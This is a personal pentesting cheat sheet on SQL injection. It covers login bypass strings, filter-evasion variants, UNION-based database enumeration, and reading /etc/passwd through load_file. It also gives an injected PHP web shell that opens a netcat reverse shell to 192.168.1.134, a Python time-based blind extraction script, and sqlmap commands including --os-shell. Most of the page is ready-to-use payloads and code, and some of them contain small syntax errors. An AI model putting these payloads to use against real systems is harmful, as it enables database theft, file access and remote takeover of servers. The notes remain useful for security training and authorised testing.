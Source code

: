 ```yaml
---
title: Notes | SQLi
author: Zeropio
date: 2021-12-12
categories: [Notes, Databases]
tags: [sql, injection]
permalink: /notes/databases/sqli 
---
```



# Basic access
Maybe the database have the default login, we can try with:
```console
$ mysql -u root -h <ip>
```

---

# Basic Injection
If we can send a query to the database to log, we can do:
```sql
' or '1'='1' --
```

Probably we need to change the text to bypass filter:
```sql
aNd 1=1
aNd 21=21
orDeR bY 1
orDer+bY+1
orDer/\*\*/bY/\*\*/1
orDer%20bY%201
```
We can change the spaces by:
```sql
+, /**/, %20
```

Then we add a comment line, there are different comment for each program:
- Oracle: --
- MySQL: #
- MariaDB: /* */
Some others comment can be:
- /*
- //
- %23

> Probably, we need to add **;** at the end of the query (before the comment).
{: .prompt-tip }

Also, we can try to catch the login request with burp and send the SQLi with it.
  
---

# Error Based
When we see an SQL error in the page we can try to gather information of the web.
Adding and:
```sql
... ORDER BY 5; --
```
We can check how many rows are in the query.
> (We can change **--** to others SQL comments.)
{: .prompt-tip }

Then we can do an union with the columns:
```sql
... UNION SELECT 1,2,3,4,5;
... UNION SELECT NULL,NULL,NULL,NULL,NULL;
```

We can use to enumerate the following functions, replacing the numbers or NULL:
- database()
- user()
- load_file('/etc/password')

Now we can get the tables from the database:
```sql
... UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema = "database-name";
```

Or the others databases:
```sql
... UNION SELECT schema_name,NULL FROM information_schema.schemata;
```
Some databases can limit the amount on databases show, we can try to change it with limit:
```sql
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 1,1; -- This will show the first one
... UNION SELECT schema_name,NULL FROM information_schema.schemata LIMIT 2,1; -- This will show the second one
```

To get the columns of a table:
```sql
... UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = "database-name" AND table_name = "table-name";
```

We can use this syntax to read and write system files:
```sql
... UNION SELECT load_file('/etc/passwd'), NULL;
... UNION SELECT 'SUS', NULL into outfile '/tmp/attack.txt;
```
And then create a reverse shell:
```sql
' union select null,'<?passthru("nc -e /bin/sh 192.168.1.134 9000");?>' into outfile '/tmp/shell.php'#
```

If we can not pass a string like **"database-name"** we can encode it:
```console
$ echo "database-name" | xxd -ps
```
##### (We may remove the **0a**, and add a **0x** at the beggining.)

---

# Time Based (Blind)
We can make sleep the sql function in order to guess if the page is not displaying anything.

For example:
```sql
... 'admin' and sleep(5) --If the user is correct it will wait 5 sec 
... AND if(substr(database(),1,1)='c', sleep(5),1); --
```

We can make a Python Script:
```python
#!/usr/bin/python3

import requests, time, sys, signal
from pwn import *

url = '[your-url]'
s = '0123456789abcdefghijklmnopqrstuvwxyz'
result = ''

def def_handler(sig, frame):
	log.failure("Saliendo")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


def check(payload):
	data_post = {
		'username' : '%s' % payload,
		'password' : 'test'
	}

	time_start = time.time()
	content = requests.post(url, data=data_post)
	time_end = time.time()

	if (time_end - time_start > 5):
		return 1

p1 = log.progress('Database')
p2 = log.progress('Payload')

for i in range(0,10):
	for c in s:
		payload = "' OR if(substr(database(),%d,1)='%c', sleep(5),1); -- - % (i, c)"
		p2.status("%s" % payload)
		
		if check(payload):
			result += c
			p1.status("%s % result")
			break

log.info("Database: %s" % result)
```

We can change **database()** from the others functions in the **Error Based** to guess another values (tables, columns,...).

---

# SQLmap
We can try searching a URL with:
```console
> sqlmap -u "http://192.168.1.137/mutillidae/index.php?page=user-info.php&username=admin&password=aaaa&user-info-php-submit-button=View+Account+Details"
```

We can use the following options to get a reverse shell:
- **--os-shell**
- **--sql-shell**

With **Burp** we can capture the request and do the scan with a file with the header:
```console
> sqlmap -r req.txt
```
